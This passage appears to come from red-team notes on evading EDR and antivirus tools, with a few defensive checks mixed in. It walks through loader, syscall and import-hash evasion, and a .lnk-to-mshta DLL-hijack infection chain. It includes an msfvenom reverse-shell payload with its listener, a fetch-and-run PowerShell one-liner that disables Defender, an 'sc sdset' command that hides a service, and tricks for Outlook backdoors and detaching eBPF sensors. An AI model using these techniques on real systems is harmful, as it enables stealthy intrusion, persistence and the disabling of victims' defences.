- Verify expected parent process - useful for DLL side-loading scenarios where sandboxes run DLLs via `rundll32`
- Check for physical display devices

#### Controlled Decryption

- Carefully inspect environment before decompressing and decrypting shellcode
- For zero knowledge about environment, pull decryption keys from internet/DNS

#### Fooling Import Hash (ImpHash)

1. Create unreachable code paths in native loader
2. In that unreachable code, call Windows APIs with dummy parameters
3. Compile the code
4. Locate those APIs in the executable's import address table
5. Overwrite imported function names in PE headers with random other names from the same DLL

#### Command Line Spoofing

- Modifies command line arguments in process memory
- Hides actual parameters from EDR telemetry
- Makes detection based on command line difficult

#### Killing Bit Technique

- Detection Signatures are being implemented on
  - Syscall Hashes
  - Assembly stub bytes
  - Hashing routines/functions
- Evasion
  - Implement your own or modify existing direct syscalls harness
  - After hashing algorithm change `KEY/BitShift/ROL/arithmatic` is enough to refresh hashes
  - Insert junk instructions into assembly stubs so naive static signatures won't match any longer
  - use Indirect Syscalls, find `SYSCALL` instruction somewhere in `ntdll.dll` and jump there
- General Suggestions
  - use `SORTED-RVA` strategy
    - `FreshyCalls`
    - `Runtime Function Table`
  - don't rely on fresh `NTDLL.DLL` parsing, don't load one from process/memory
  - don't used direct syscalls that extract syscall

#### DripLoader Technique

- Implementation available at [github.com/xuanxuan0/DripLoader](https://github.com/xuanxuan0/DripLoader)
- Technique details:
  - Reserve 64KB chunks with `NO_ACCESS` protection
  - Allocate chunks with `Read+Write` permissions in that reserved pool (4KB each)
  - Write shellcode in chunks using randomized order
  - Change protection to `Read+Exec`
  - Overwrite prologue of `ntdll!RtlpWow64CtxFromAmd64` with `JMP` trampoline to shellcode
  - Use direct syscalls for memory operations and thread creation
- **Reminder on Post-Exploitation:** Successful initial execution (e.g., implant download/run) doesn't guarantee stealth for subsequent actions. EDR can still detect malicious behavior later (e.g., Meterpreter activity). In-memory evasion techniques remain critical.

### General Evasion Strategy

- using a less known C&C tool with indirect system calls and the help of `.dll` is recommended
- you should avoid the built-in `execute assembly` option of C&C tools, use community extensions instead (beacon object file or inline execute assembly)
- for example [Certify](https://github.com/GhostPack/Certify) and [SharpHound](https://github.com/BloodHoundAD/SharpHound)
- sample EDR bypass
  - user downloads a zip that contains `.lnk` file(modern browsers refuse to download a link file directly)
  - `.lnk` executes `mshta.exe` with the malware location as argument(to bypass AppLocker)
  - `mshta.exe` downloads and executes a `.hta` malicious file from our server
  - due to `.dll` hijacking, our payload executes every time Microsoft Teams is opened
  - EDR doesn't detect infection

#### EDR Evasion Strategy for Persistence

Complete EDR evasion is challenging. Consider these strategies:

- Instead of evading detection entirely, focus on persistence
- Aim for delayed & extended execution (dechain file write & exec events)
- Use VBA/WSH to drop DLL/XLL:
  - COM hijacking
  - DLL side-loading/hijacking
  - XLL, XLAM, WLL persistence
  - Drop `VbaProject.OTM*` to backdoor Outlook (particularly effective against CrowdStrike)
  - Drop CPL (`%APPDATA%\Microsoft\Outlook\VbaProject.OTM`)
- Hide Services:
  - Use Security Descriptor Definition Language (SDDL) strings to modify service permissions, making them harder to detect or query by standard tools. You can use `sc sdset` for this.
    ```shell
    # Example: Hiding a service named 'evilsvc'
    sc sdset evilsvc "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
    ```
    See [SID Strings](https://learn.microsoft.com/en-us/windows/win32/secauthz/sid-strings) for documentation.

Additional reading:

- [Hang Fire](https://medium.com/@matterpreter/hang-fire-challenging-our-mental-model-of-initial-access-513c71878767)
- [Macroless Phishing](https://www.youtube.com/watch?v=WlR01tEgi_8)

#### AV-Specific Evasion

- Example: McAfee exclusions can be found in logs:
  - `c:\ProgramData\McAfee\Endpoint Security\Logs\AdaptiveThreatProtection_Activity.log`
  - Discovering excluded processes (like `conhost.exe`) enables targeted injection

## Practical Implementation

### Setting Up a Testing Lab

#### Kali (Attacker) Setup:

- Generate shellcode using msfvenom:
  ```bash
  msfvenom -p windows/x64/Meterpreter/reverse_tcp LHOST=192.168.242.128 LPORT=443 EXITFUNC=thread --platform windows -f raw -o reverse64-192168242128-443.bin
  ```
- Launch Meterpreter listener:
  ```bash
  msfconsole
  use exploit/multi/handler
  set payload windows/x64/Meterpreter/reverse_tcp
  set LPORT 443
  set LHOST 192.168.242.128
  run
  ```

#### Windows (Victim) Setup:

- Ensure VMs can communicate
- Keep Windows and Defender updated
- Create antivirus exclusion on test directory
- Disable "Automatic sample submission" during testing (re-enable outside testing)

### Windows Defender Bypass Tools

Available at [github.com/hackmosphere/DefenderBypass](https://github.com/hackmosphere/DefenderBypass):

- **myEncoder3.py** - Transforms binary files to hex and applies XOR encryption
- **InjectBasic.cpp** - Basic shellcode injector in C++
- **InjectCryptXOR.cpp** - Adds XOR decryption for encrypted shellcode
- **InjectSyscall-LocalProcess.cpp** - Uses direct syscalls to bypass userland hooks, removes suspicious functions from IAT
- **InjectSyscall-RemoteProcess.cpp** - Injects shellcode into remote processes

**Progressive techniques**:

1. Begin with basic shellcode execution
2. Add encryption/obfuscation
3. Implement direct syscalls to bypass monitoring
4. Move to remote process injection when needed

#### WSC API Abuse (defendnot)

A sophisticated technique that abuses the Windows Security Center (WSC) service to disable Windows Defender by registering a fake antivirus:

- **Concept**: WSC is used by legitimate antiviruses to notify Windows that another AV is present, causing Windows to automatically disable Defender
- **Implementation**: [defendnot](https://github.com/es3n1n/defendnot) directly interacts with the undocumented WSC API to register itself as an antivirus
- **Advantages**:
  - Completely disables Windows Defender rather than just evading detection
  - Uses legitimate Windows functionality (WSC service)
  - More reliable than traditional bypass methods
  - Successor to older techniques like "no-defender"

**Installation Methods**:

```powershell
# Basic installation
irm https://dnot.sh/ | iex

# With custom AV name
& ([ScriptBlock]::Create((irm https://dnot.sh/))) --name "Custom AV name"

# Silent installation (no console allocation)
& ([ScriptBlock]::Create((irm https://dnot.sh/))) --silent
```

**Command Line Options**:

- `--name` - Custom antivirus display name
- `--disable` - Disable defendnot
- `--verbose` - Verbose logging
- `--silent` - No console allocation
- `--autorun-as-user` - Create autorun task as current user
- `--disable-autorun` - Disable autorun task creation

**Technical Details**:

- WSC API is undocumented and typically requires Microsoft NDA for documentation
- Registers the fake AV directly with WSC rather than using third-party code
- Requires persistence via autorun to maintain registration after reboot
- Binaries must remain on disk for continued operation

**Limitations**:

- Requires autorun persistence (detectability concern)
- May be flagged by other security solutions monitoring WSC changes
- Effectiveness depends on target system configuration and other security layers

**Legitimate Use Cases**:

- Development environment resource optimization
- Performance testing under different security configurations
- Educational research on Windows security mechanisms
- Home lab experimentation

### Enhance Protection

- Prevent LSASS dumping by running it as a protected process light (`RunAsPPL`)
- Deeper analysis on EDR telemetry
- Heavy monitoring on common external compromise vectors
- Application Allow Listing

#### LSASS protection (RunAsPPL) defaults

- Windows 11 version 22H2 (new installs): Added LSA protection is enabled by default when the device is enterprise joined and supports HVCI; upgrades may not auto-enable.
- Windows 11 version 24H2: LSA protection defaults are broader; Microsoft notes it is enabled by default on more device categories (MSA/Entra/hybrid/local) with evaluation behavior on upgrade.
- Blue-team quick checks:
  - Verify registry: `HKLM\SYSTEM\CurrentControlSet\Control\Lsa` → `RunAsPPL`/`RunAsPPLBoot` (policy may also store a UEFI variable for lock).
  - Confirm status with eventing and `Get-ProcessMitigation -System` and hardware readiness (`Get-CimInstance Win32_DeviceGuard`).

### Firmware & Boot‑level Threats

- **UEFI Bootkits** (e.g., BlackLotus, CosmicStrand‑2024) execute during the DXE phase, disable BitLocker and HVCI before Windows loads, and can patch kernel code pages before EDR starts.
- **Secure Boot bypass CVE‑2024‑7344** abuses an un‑revoked test‑signed shim to load unsigned payloads even with Secure Boot enabled.
- **Mitigations**
  - Keep DBX revocation list current (August 2024 or later).
  - Enable Windows Defender System Guard Secure Launch and SVI.
  - Collect & review TPM PCR[7] and System Guard logs for unexpected changes.

### Linux / Container Visibility & Evasion

#### eBPF Runtime Sensors

- Tools like **Falco 0.38+** , **Cilium Tetragon** (real‑time enforcement with `kubectl tetragon observe`), and **AWS GuardDuty eBPF** hook `sys_enter` tracepoints and kprobes to emulate EDR telemetry on Kubernetes nodes.
- **Evasion**
  - Detach or overwrite the eBPF program with `bpftool prog detach`.
  - Remount `debugfs` elsewhere to hide BPF maps and programs.
  - Hide processes in sidecar containers that run outside the node‑agent's PID namespace filter.

#### PID‑Namespace & Cgroup Tricks

- **CVE‑2025‑26324** leaks host PIDs, allowing a container process to open `/proc/<hostpid>/mem` and bypass namespace‑based sensors.
- Sidecars running in the host network namespace can exfiltrate data without visibility from node‑level agents.

### Non‑Windows Endpoints (macOS, iOS, Android)

#### macOS

- Starting with macOS Sonoma (14), every Gatekeeper verdict is logged via the unified log channel `sender=syspolicyd`. Blue teams monitor these streams; red teams should clear the quarantine flag **before** first execution or ship a notarised loader.
- Direct edits to **TCC.db** grant screen‑recording, camera, or microphone entitlements without user prompts.
- Combine with notarised, ad‑hoc signed apps to bypass Gatekeeper on macOS 15.

#### Mobile

- **Android 13/14**: SIM‑swap plus deferred `appops` removes MDM profiles without factory reset.
- **iOS 17 KFD exploit** enables sideloading unsigned binaries that most Mobile Threat Defence solutions fail to scan.

### Kernel Driver Blocklists & Core Isolation (Windows 11 23H2+)

- Windows now ships a quarterly updated vulnerable‑driver blocklist; violations surface under _Device security → Core isolation_.
- **Kernel Data Protection (KDP)** marks EDR code pages read‑only—even for kernel drivers.
- **Attacker response:** use driver‑name collision (rename malicious driver to `iqvw64e.sys`) or flip _CiOptions_ from a BYOVD payload before loading unsigned code.
- Defender quick checks: `Get-ProcessMitigation -System`, `Get-CimInstance -ClassName Win32_DeviceGuard`, and `Get-WindowsDriver -Online -All | ? Name -match 'wd'`.
- Hardware‑Enforced Stack Protection (CET/Shadow Stack) is increasingly enabled (Windows 11 24H2+). Call‑stack spoofing must account for CET or will fault.
- LSASS protection (RunAsPPL) is enabled by default on recent Windows 11 new installs; credential theft attempts must consider this.

## Diagrams

### EDR Detection & Prevention Mechanisms



### EDR Evasion Techniques



### Modern EDR Evasion Workflow


